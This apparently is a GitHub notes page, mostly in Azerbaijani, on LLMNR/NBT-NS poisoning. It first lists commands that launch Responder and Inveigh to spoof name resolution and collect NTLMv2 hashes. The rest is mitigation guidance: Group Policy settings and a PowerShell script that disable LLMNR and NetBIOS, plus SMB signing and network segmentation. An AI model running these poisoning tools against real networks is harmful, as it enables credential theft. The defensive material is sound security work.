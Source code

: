 responder for linux

```shell
sudo responder -I ens224
```

responder for windows

```powershell
Import-Module .\Inveigh.ps1
```
```powershell
(Get-Command Invoke-Inveigh).Parameters
```
```powershell
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

responder as an application for windows

```powershell
.\Inveigh.exe
```
```powershell
GET NTLMV2UNIQUE
```


prevention

<img width="1399" height="561" alt="image" src="https://github.com/user-attachments/assets/0dcb29ff-fb3f-4b23-bbaa-c1d831ef9bc9" />
Computer Configuration --> Administrative Templates --> Network --> DNS Client keçərək və "Turn OFF Multicast Name Resolution." funksiyasını aktiv etməklə Qrup Siyasətində LLMNR-ni söndürə bilərik.

<img width="993" height="524" alt="image" src="https://github.com/user-attachments/assets/4390f9a3-95ee-4b30-9243-2d52d361f5e0" />
NBT-NS Qrup Siyasəti vasitəsilə deaktiv edilə bilməz, lakin hər bir hostda yerli olaraq deaktiv edilməlidir. Bunu İdarəetmə Paneli altından Şəbəkə və Paylaşım Mərkəzini açaraq, Adapter parametrlərini dəyişdirin üzərinə klikləməklə, onun xassələrinə baxmaq üçün adapterin üzərinə sağ klikləməklə, İnternet Protokolu 4 Versiyasını (TCP/IPv4) seçməklə və Xüsusiyyətlər düyməsini klikləməklə, Qabaqcıl üzərinə klikləməklə və WINS sekmesini seçməklə və nəhayət, TCP/IP üzərindən NetBIOS-u Disable seçərək edə bilərik.

```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```
NBT-NS-ni birbaşa GPO vasitəsilə söndürmək mümkün olmasa da, biz PowerShell skriptini Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> powershell command kimi bir şeylə işə sala bilərik:
Yerli Qrup Siyasəti Redaktorunda Başlanğıc üzərinə iki dəfə klik etməli, PowerShell Skriptləri sekmesini seçməli və əvvəlcə Windows PowerShell skriptlərini işə salmaq üçün "Bu GPO üçün skriptləri aşağıdakı ardıcıllıqla işlədin" seçimini etməli, sonra Əlavə et üzərinə klikləyib skripti seçməliyik. Bu dəyişikliklərin baş verməsi üçün ya hədəf sistemi yenidən başlatmalı, ya da şəbəkə adapterini yenidən başlatmalı olacağıq.

<img width="1170" height="521" alt="image" src="https://github.com/user-attachments/assets/7a50a9b1-47ae-45cf-859d-c4316e9f8b25" />

Bunu bir domendəki bütün hostlara çatdırmaq üçün biz Domen Nəzarətçisində Qrup Siyasətinin İdarə edilməsindən istifadə edərək GPO yarada və skripti skriptlər qovluğunda SYSVOL paylaşımında yerləşdirə və sonra onu UNC yolu ilə çağıra bilərik:

\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\skriptləri

GPO xüsusi OU-lara tətbiq edildikdən və həmin hostlar yenidən işə salındıqdan sonra, skript SYSVOL paylaşımında hələ də mövcud olduğu və şəbəkə üzərindən host tərəfindən əlçatan olması şərti ilə skript növbəti yenidən yükləmə zamanı işləyəcək və NBT-NS-ni deaktiv edəcək.

<img width="1559" height="580" alt="image" src="https://github.com/user-attachments/assets/824252f9-6914-407b-9c27-5eb412d9e51b" />

Digər yumşaldıcı tədbirlərə LLMNR/NetBIOS trafikini bloklamaq üçün şəbəkə trafikinin filtrlənməsi və NTLM relay hücumlarının qarşısını almaq üçün SMB İmzalanmasının aktivləşdirilməsi daxildir. Şəbəkəyə müdaxilənin aşkarlanması və qarşısının alınması sistemləri də bu fəaliyyəti azaltmaq üçün istifadə edilə bilər, şəbəkə seqmentasiyası isə düzgün işləməsi üçün LLMNR və ya NetBIOS-un aktivləşdirilməsini tələb edən hostları təcrid etmək üçün istifadə edilə bilər.



